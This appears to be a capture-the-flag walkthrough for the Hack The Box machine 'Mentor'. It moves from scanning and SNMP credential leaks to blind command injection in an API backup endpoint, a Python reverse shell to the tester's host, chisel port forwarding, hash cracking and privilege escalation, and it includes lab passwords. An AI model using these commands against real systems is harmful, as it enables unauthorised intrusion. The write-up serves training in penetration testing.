



# [Mentor](https://app.hackthebox.com/machines/mentor)

```bash
nmap -p- --min-rate 10000 10.10.11.193 -Pn  
```


After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.193 -Pn 
```


Let's do port scanning for `UDP`.
```bash
nmap -p- -sU --min-rate 10000 10.10.11.193 -Pn  
```


While browsing web application of this target, I see that ip is resolved into `mentorquotes.htb`, that's why I add this into `/etc/hosts` file.


Let's do `subdomain enumeration` via `ffuf` command.
```bash
ffuf -u http://10.10.11.193 -H "Host: FUZZ.mentorquotes.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 18 -mc all
```


Let's add `api` subdomain into `/etc/hosts` file also.


Now, it's time to do `directory enumeration` for `api` subdomain via `gobuster` command.
```bash
gobuster dir -u http://api.mentorquotes.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40
```


While enumeration of `SNMP` via `snmpwalk` command, I see one password here.
```bash
snmpbulkwalk -v2c -c internal 10.10.11.193
```


Password: kj23sadkj123as0-d213


From `/docs` endpoint which is API Documentation.


I can see , there's valid user called `james` and his email is `james@mentorquotes.htb`.


Let's check password for this user on authentication endpoint.


Password worked for `james` user.


Let's fuzz endpoints via authenticated `james` user.


I can see `/users` endpoint after I got `JWT Token` on `Authorization` header of HTTP request.


Let's check do `Directory Enumeration` for `/admin` endpoint.
```bash
gobuster dir -u http://api.mentorquotes.htb/admin -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40
```




I found `/backup` and `/checkup` endpoints for `admin` user.


But for `/check` endpoint, it is not implemented yet.


Let's enumerate `/backup` endpoint.

I see that `POST` request for `/backup` endpoint.


I need to enter `path` variable and value here.


Let's check `Command Injection` for `path` variable.

That's `Blind Command Injection`, I will try this by send `ping` to my endpoint.


I can see this result from `tcpdump -i tun0`.


Let's add reverse shell code into here.

I choose `Python` as because, from nmap scan, I saw that this application is running through `Python Flask`.

```bash
python -c 'import os,pty,socket;s=socket.socket();s.connect((\"10.10.14.17\",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")';
```


Hola I got reverse shell from port `1337`.


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```




I can see `user.txt`.


While enumeration on container, I find `db.py` file and read content of this.


From `hard-coded` credentials, I can access.

There I see that I can to `postgreSQL` service via `Port Forwarding`. Let's upload `chisel` into here.
```bash
python3 -m http.server --bind 10.10.14.17 8080
```


Then download this file via `wget` command.
```bash
wget http://10.10.14.17:8080/chisel_1.9.1_linux_amd64
```




Now, it's time for `Remote Port Forwarding`.

First, we need to create `tunnel`.
```bash
chisel server -p 8000 --reverse
```


Then, we need to connect to this channel to serve `PostgreSQL`.
```bash
./chisel_1.9.1_linux_amd64 client 10.10.14.17:8000 R:5432:172.22.0.1:5432
```


Let's access into `PostgreSQL` service on our machine.
```bash
psql -h 127.0.0.1 -p 5432 -U postgres
```


I put this hashes into [Crackstation](https://crackstation.net).


I found password of `svc` user.

svc: 123meunomeeivani

I read `/etc/snmp/snmpd.conf` file and `hard-coded` credential is here.


Maybe this password of `james` user.

james: SuperSecurePassword123__


While I run `sudo -l` command to check privileges of `james` user.


root.txt

